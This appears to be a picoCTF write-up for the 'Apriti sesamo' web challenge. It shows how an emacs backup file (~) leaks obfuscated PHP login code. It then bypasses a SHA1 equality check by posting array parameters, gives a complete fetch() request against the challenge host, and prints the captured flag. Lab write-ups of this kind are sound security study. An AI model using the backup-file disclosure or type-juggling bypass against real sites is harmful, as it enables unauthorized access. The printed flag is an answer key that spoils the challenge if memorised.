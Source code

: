 ## Apriti sesamo

I think this is my favourite challenge so far, except for the fact that it's pretty hard to get started without the hint.

The webpage is a simple username and password box, along with a large ASCII message saying "log in if you can". Entering any incorrect credentials returns a message saying "Failed! No flag for you".

The two hints are "Backup files" and "Rumor has it, the lead developer is a militant emacs user". Considered together, it's clear these two hints are referring to how emacs creates backup files with a `~` at the end of the filename.

Changing the URL from `http://verbal-sleep.picoctf.net:58281/impossibleLogin.php` to `http://verbal-sleep.picoctf.net:58281/impossibleLogin.php~` reveals an old version of the webpage, with some of the password-checking logic visible in the source code:

```html
<!--?php
if(isset($_POST[base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")])&& isset($_POST[base64_decode("\143\x48\x64\x6b")])){$yuf85e0677=$_POST[base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")];$rs35c246d5=$_POST[base64_decode("\143\x48\144\153")];if($yuf85e0677==$rs35c246d5){echo base64_decode("\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d");}else{if(sha1($yuf85e0677)===sha1($rs35c246d5)){echo file_get_contents(base64_decode("\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75"));}else{echo base64_decode("\x50\107\112\171\x4c\x7a\65\107\x59\x57\154\x73\x5a\127\x51\x68\x49\105\x35\x76\111\x47\132\x73\131\127\x63\x67\x5a\155\71\x79\x49\110\154\x76\x64\x51\x3d\75");}}}?-->
```

I uncommented the PHP code, formatted it, and decoded the base64 strings for better readability:

```php
<?php
    if (isset($_POST[username]) && 
        isset($_POST[pwd])) {
        
        $yuf85e0677 = $_POST[username];
        $rs35c246d5 = $_POST[pwd];
        
        if ($yuf85e0677 == $rs35c246d5) {
            echo "<br/>Failed! No flag for you";
        } else {
            if (sha1($yuf85e0677) === sha1($rs35c246d5)) {
                echo file_get_contents(../flag.axt);
            } else {
                echo "<br/>Failed! No flag for you";
            }
        }
    }
?>
```

The code is pretty simple: if the username and password are the same, it returns "Failed! No flag for you". However, if the username and password are different, but the SHA1 hashes of the two are equal, it reads the contents of `../flag.axt` and returns it.

At first, I tried to find a collision for the SHA1 hash - about 8 years ago, someone found a [SHA1 collision](https://shattered.io/) that allowed them to create two different PDFs with the same SHA1 hash. However, due to the very small number of SHA1 collisions having been discovered, I realized that this probably wasn't the intended solution (and didn't feel like figuring out how to submit a PDF as a password).

After a bit of trial and error, I figured out that the actual vulnerability was type casting. Since pressing Login calls a POST request, I was able to test various inputs using the browser's developer tools. PHP's `sha1` function is only designed to work on strings, and it returns `NULL` if it's given an invalid input. By simply changing the body of the POST request from `username=abc&pwd=xyz` to `username[]=abc&pwd[]=xyz`, we are able to change the types of the inputs - the arrays are not equal, but their hashes are (`NULL === NULL`).

```js
fetch("http://verbal-sleep.picoctf.net:58281/impossibleLogin.php", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "accept-language": "en-CA,en-GB;q=0.9,en-US;q=0.8,en;q=0.7",
    "cache-control": "max-age=0",
    "content-type": "application/x-www-form-urlencoded",
    "upgrade-insecure-requests": "1",
    "Referer": "http://verbal-sleep.picoctf.net:58281/impossibleLogin.php",
    "Referrer-Policy": "strict-origin-when-cross-origin"
  },
  "body": "username[]=abc&pwd[]=xyz",
  "method": "POST"
}).then(response => response.text())
.then(data => {
  console.log(data);
})
.catch(error => {
  console.error("Error:", error);
});
```

```html
picoCTF{w3Ll_d3sErV3d_Ch4mp_5292ca30}
```